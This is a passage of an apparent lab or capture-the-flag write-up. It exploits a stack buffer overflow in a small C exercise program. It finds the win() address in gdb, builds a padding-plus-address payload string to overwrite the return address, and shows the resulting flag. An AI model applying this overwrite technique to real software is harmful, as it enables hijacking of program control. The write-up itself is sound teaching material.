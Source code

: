 ```
Program received signal SIGSEGV, Segmentation fault.
0x565554e0 in puts@plt ()
A debugging session is active.

	Inferior 1 [process 25501] will be killed.

Quit anyway? (y or n) [answered Y; input not from terminal]
```

### win() function

The memory address of the `win()` function is at `0x565556dc`

```bash
(gdb) disassemble /s win,+1
Dump of assembler code from 0x565556dc to 0x565556dd:
ED202.5b.c:
16	void win() {
   0x565556dc :	push   %ebp
End of assembler dump.
```

We pad the array with 37 letters to the end of the `ebp` and send the string `ABCDEFGHIJKLMNOPQRSTUVWXYZABCDEFGHIJK%dc%56%55%56` to URL encode the `win()` memory address in little endian and store that in the `eip`

```bash
(gdb) run < input-string
Breakpoint 1, activate (str=0xffffdc00 "'\334\377\377") at ED202.5b.c:9
9	    if (key[30] == 7) {
(gdb) x/40x $esp
0xffffdc20:	0xf7fe77eb	0x41557000	0x45444342	0x49484746
0xffffdc30:	0x4d4c4b4a	0x51504f4e	0x55545352	0x59585756
0xffffdc40:	0x4342415a	0x47464544	0x4b4a4948	0x565556dc
0xffffdc50:	0xffffdc00	0x00000001	0x000000bf	0x56555731
0xffffdc60:	0xffffdc8e	0xffffdd8c	0x000000e0	0x44434241
0xffffdc70:	0x48474645	0x4c4b4a49	0x504f4e4d	0x54535251
0xffffdc80:	0x58575655	0x42415a59	0x46454443	0x4a494847
0xffffdc90:	0x5556dc4b	0x00000056	0xf7e16dc8	0xf7fd71b0
0xffffdca0:	0x00008000	0xf7fbd000	0x00000000	0xf7e2233a
0xffffdcb0:	0x00000001	0x56557000	0x00000001	0x565557db
(gdb) continue
Enter product key: Congratulations!  The second flag is RETURN-ORIENTED

Program received signal SIGSEGV, Segmentation fault.
0xffffdc00 in ?? ()
A debugging session is active.

	Inferior 1 [process 30409] will be killed.

Quit anyway? (y or n) [answered Y; input not from terminal]
```
